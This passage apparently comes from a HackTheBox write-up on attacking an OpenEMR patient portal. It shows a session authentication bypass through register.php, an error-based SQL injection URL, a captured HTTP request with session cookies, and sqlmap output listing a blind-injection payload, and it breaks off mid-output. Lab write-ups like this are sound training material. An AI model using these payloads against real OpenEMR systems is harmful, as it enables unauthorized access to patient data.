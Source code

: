 To bypass this, I can first visit
`http://hms.htb/portal/account/register.php`. Then just entering that same
previous url into Firefox returns the page as if I’m logged in:

![image-20200511070451316](https://0xdfimages.gitlab.io/img/image-20200511070451316.png)

Visiting the `register.php` seems to set the session as logged in for some
period of time (maybe 10 minutes?).

### Get Creds for OpenEMR

With the authentication bypass I gain access to many of the pages that the
report shows with SQL injection vulnerabilities. For example, the POC for
`add_edit_event_user.php` is:

    
    
    http://host/openemr/portal/add_edit_event_user.php?eid=1 AND EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))
    

Visiting
`http://hms.htb/portal/add_edit_event_user.php?eid=1%20AND%20EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))`
returns:

![image-20200511131330231](https://0xdfimages.gitlab.io/img/image-20200511131330231.png)

It’s an error, but I can see the result, `5.7.30-0ubuntu0.18.04.1` in the
error message. This is Error-based SQLi.

This is a tricky one to do manually, but `sqlmap` will nail it. I’ll go into
Burp, find that request, and “copy to file”. I’ll edit the url to remove the
injection part, leaving this:

    
    
    GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
    Host: hms.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: PHPSESSID=7es8n2o6ab2s8nu5njec0esaus; OpenEMR=glu0rgv7348lt5tgk788cv0tf5
    Upgrade-Insecure-Requests: 1
    

It is important that that `PHPSESSID` cookie is the one that was validated
with the auth bypass. Then I can run `sqlmap` to enumerate the database. First
find the injection:

    
    
    root@kali# sqlmap -r add_edit_event_user.request
            ___
           __H__
     ___ ___[(]_____ ___ ___  {1.4.4#stable}
    |_ -| . [(]     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    ...[snip]...
    GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
    sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
    ---                                                       
    Parameter: eid (GET)                                      
        Type: boolean-based blind                             
        Title: Boolean-based blind - Parameter replace (original value)
        Payload: eid=(SELECT (CASE WHEN (8430=8430) THEN 1 ELSE (SELECT 1611 UNION SELECT 5937) END))
    